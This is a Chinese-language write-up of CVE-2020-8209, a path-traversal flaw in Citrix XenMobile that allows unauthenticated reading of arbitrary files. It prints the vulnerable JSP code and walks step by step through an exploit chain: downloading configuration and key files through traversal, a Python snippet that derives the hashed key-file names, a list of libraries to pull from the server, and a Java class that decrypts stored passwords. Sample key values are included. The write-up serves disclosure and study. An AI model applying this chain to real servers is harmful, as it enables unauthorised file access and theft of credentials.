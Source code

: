 # （CVE-2020-8209）Citrix XenMobile目录遍历任意文件读取漏洞.md



Citrix Endpoint Management（也称为XenMobile）用于管理员工的移动设备和移动应用程序。通常，由于Active Directory集成，它部署在网络外围并可以访问内部网络。这使XenMobile成为安全研究的主要目标。

在此类研究中，发现了路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件。





# CVE-2020-8209 –路径遍历

利用此漏洞，可以读取Web服务器根目录之外的任意文件，包括配置文件和敏感的加密密钥。不需要授权。在文件help-sb-download.jsp中标识了易受攻击的代码：



```
<%    String sbFilePath="/opt/sas/support/";    int length = 0;
    String sbFileName=(String)request.getParameter("sbFileName");
    ServletOutputStream outStream = response.getOutputStream();    response.setHeader("Set-Cookie","fileDownload=true; path=/");    response.setContentType("application/octet-stream");    response.setHeader("Content-Disposition", "attachment; filename=\"" + sbFileName + '"');

    File file = new File(sbFilePath+sbFileName);    byte[] byteBuffer = new byte[4096];    DataInputStream in = new DataInputStream(new FileInputStream(file));
    while((in != null) && ((length =in.read(byteBuffer)) != -1))    {        outStream.write(byteBuffer,0,length);
    }
    in.close();    outStream.flush();
%>
```

该参数sbFileName与字符串连接/opt/sas/support/，之后将字符串作为参数提供给File类构造函数。结果显示在以下屏幕截图中：

![image-20201117135212860](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135212860.png)

# 解密配置密码

尽管该应用程序以tomcat用户的特权运行，但仍可以读取诸如的配置文件/opt/sas/sw/config/sftu.properties。



![image-20201117135236477](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135236477.png)

密码已加密并以以下两种格式之一存储：{aes} [base64文本]或{aes} {db} [base64文本]。加密由库/opt/sas/sw/lib/libsecure.so和DataSecurity.jar处理。为了解密，需要相应的密钥。它们位于文件中/opt/sas/rt/keys/security.properties，可以使用路径遍历漏洞进行下载。

![image-20201117135250138](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135250138.png)

```

P.TXT1=vfjgegdwecmykhbispfg
P.TXT2=mbezvftvzwjopiruwewm
P.TXT3=gzaoaxmebrgffquankdx
P3.Salt=W3UK3PtDVgYq9Jd9QKReAw==
NLK=cT4nkjXGc/iUZ2TvCVkvmsZAsNTG/6OgE08ZMWvATcL2fXFgfwAJO/nhE7jsi6Zh
NLKS=SC01Cg==
WKS=CAVRK9/5+r5esY+bvrZJ1g==
SK=jTyjyNsyFbkrCnaI9Gq/0GVUp1fkq8nd+VHLe35T0rmmm8z7osNtgfSNPFulSSJ1
SKS=CF5ebQ==
UD.GK=69ict40YlMC9E1a2Tcgu3UVb0Lkd5RyadcQ4SEwcbKlUCR8Tv4lGv6N6BkirKk7l
GKS=4GLRGw==
```

使用算法对每个参数P.TXT1，P.TXT2，P.TXT3进行哈希处理

![image-20201117135329135](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135329135.png)

并指.txt文件夹中的文件/opt/sas/rt/keys/。这些相同的步骤由库完成libsecure.so。



```
from base64 import b64encode
from hashlib import sha256
print(b64encode(sha256(b'vfjgegdwecmykhbispfg').digest()).decode('ascii').translate({47:None,61:None}))
print(b64encode(sha256(b'mbezvftvzwjopiruwewm').digest()).decode('ascii').translate({47:None,61:None}))
print(b64encode(sha256(b'gzaoaxmebrgffquankdx').digest()).decode('ascii').translate({47:None,61:None}))
```

生成的文件名WbuGF1z7N+0EsLTTCE3JoRNgAJJzVe7Gs5JWhp3qJE.txt，lQGKrlfWtad61mxyFkUWNi2vF7INdfOfiXzVX1I95g.txt和

NZc0GgHcLK4qzgdQdQ0V50EorrksnJFdu1zIIlxx1j8.txt可以用于使用路径遍历漏洞从服务器下载相应的文件。

![image-20201117135402620](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135402620.png)

![image-20201117135412719](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135412719.png)

![image-20201117135421855](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135421855.png)

/opt/sas/sw/lib/libsecure.so还需要用于加密的库。

当务之急是这些文件（security.properties，WbuGF1z7N+0EsLTTCE3JoRNgAJJzVe7Gs5JWhp3qJE.txt，lQGKrlfWtad61mxyFkUWNi2vF7INdfOfiXzVX1I95g.txt，NZc0GgHcLK4qzgdQdQ0V50EorrksnJFdu1zIIlxx1j8.txt，libsecure.so），以保存到本地，他们有XenMobile服务器上的同一个文件的路径。

还需要三个Java库，保存到一个文件夹：/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/DataSecurity.jar，/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/common-interfaces.jar，/opt/sas/sw/tomcat/inst1/webapps/ROOT/WEB-INF/lib/slf4j-api-1.6.4.jar。

在上述文件夹中，创建一个decrypt.class包含以下内容的文件并进行编译。

```

import com.citrix.xms.security.DataSecurity;

class decrypt {
    public static void main(String[] args) {
        if (args.length < 1) {
            System.out.println("Usage:\n    decrypt [encrypted string]");
            return;
        }
        System.out.println(DataSecurity.decryptDbPassword(args[0]));
    }
}
```

通过正确排列所有数据，我们可以从配置文件中解密密码。

![image-20201117135453864](.resource/%EF%BC%88CVE-2020-8209%EF%BC%89Citrix%20XenMobile%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/media/image-20201117135453864.png)